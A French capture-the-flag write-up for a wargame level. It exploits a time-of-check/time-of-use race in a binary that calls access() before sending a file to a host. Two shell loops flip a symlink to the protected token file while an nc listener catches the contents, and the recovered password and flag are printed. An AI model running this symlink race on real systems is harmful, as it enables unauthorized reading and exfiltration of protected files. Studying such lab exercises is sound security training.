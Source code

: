 On trouve dans le dossier home un file token et un binaire ./level10 qui, si on le lance nous affiche un message:
<pre><code>> ./level10
./level10 file host
		sends file to host if you have access to it

> ./level10 token 192.168.1.42
You don't have access to token
</code></pre>
> on suppose que l'host est l'ip sur laquelle la machine tourne (<code>ifconfig</code>)

On creer un fichier dans /tmp qui aura nos droits, et qui pourra donc être envoyé:
<pre><code>> echo "test" > /tmp/test
> ./level10 /tmp/test 192.168.1.42
Connecting to 192.168.1.42:6969 .. Unable to connect to host 192.168.1.42
</code></pre>

On cherche a savoir ce qu'il se passe dans le binaire avec un fichier valide:
<pre><code>> ltrace ./level10 /tmp/test 192.168.1.42
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)= 0
printf("Connecting to %s:6969 .. ", "192.168.1.42")= 35
fflush(0xb7fd1a20Connecting to 192.168.1.42:6969 .. )= 0
socket(2, 1, 0)= 3
inet_addr("192.168.1.42")= 0x2a01a8c0
htons(6969, 1, 0, 0, 0)= 14619
connect(3, 0xbffff70c, 16, 0, 0)= -1
printf("Unable to connect to host %s\n", "192.168.1.42"Unable to connect to host 192.168.1.42)= 39
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>

On observe que la commande **access** est utilisée, or on sait grâce a son man, que cette commande possède une faille
<pre>
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.
</pre>
> Cette faille se nomme la **race-condition-vulnerability**.

De plus on abserve la tentative de connexion au port 6969 qui n'est pas actif.
Pour que les requetes ce fassent, il faut donc ecouter le port grâce a :
<pre><code>> nc -lk 6969</code></pre>
Et si on relance notre commande:
<pre><code>> ./level10 /tmp/test 192.168.1.42
Connecting to 192.168.1.42:6969 .. Connected!
Sending file .. wrote file!</code></pre>
> Il faut 2 terminaux pour efftuer cette manipulation afin de voir le resultat de l'écoute qui dans cette exemple nous donne :
> <pre><code>.*( )*.
> test</code></pre>


On va donc chercher a exploiter la **race-condition-vulnerability**, avec 2 scripts:

### /tmp/loop.sh
```bash
# Ce script lance la requete d'envoie de fichier en boucle en parallele de l'autre script
while true;
do
	/home/user/level10/level10 /tmp/link 192.168.1.42 > /dev/null
done
```
> <code>printf "while true;\ndo\n\t/home/user/level10/level10 /tmp/link 192.168.1.42 > /dev/null\ndone\n" > /tmp/loop.sh</code>

### /tmp/ln.sh
```bash
# Ce script creer un fichier sur lequel on a les droits et fait un lien symbolique du fichier token en boucle, en parallele de l'autre script
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	rm -f /tmp/link
	ln -s /home/user/level10/token /tmp/link
done
```
> <code>printf "while true;\ndo\n\trm -f /tmp/link\n\ttouch /tmp/link\n\trm -f /tmp/link\n\tln -s /home/user/level10/token /tmp/link\ndone\n" > /tmp/ln.sh</code>

Il suffit de lancer les deux en background et de regarder le deuxieme terminal qui ecoute le port 6969 en attendant les deux scripts s'execute de maniere assez proche pour que la **race-condition-vulnerability** soit exploitée :
<pre><code>> sh /tmp/loop.sh &
> sh /tmp/ln.sh &
<code></pre>
On obtient donc: 
<pre><code>...
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
...
</code></pre>

On test le mot de passe :
<pre>
<code>> su flag10</code>
<code>Password: woupa2yuojeeaaed06riuj63c</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
</pre>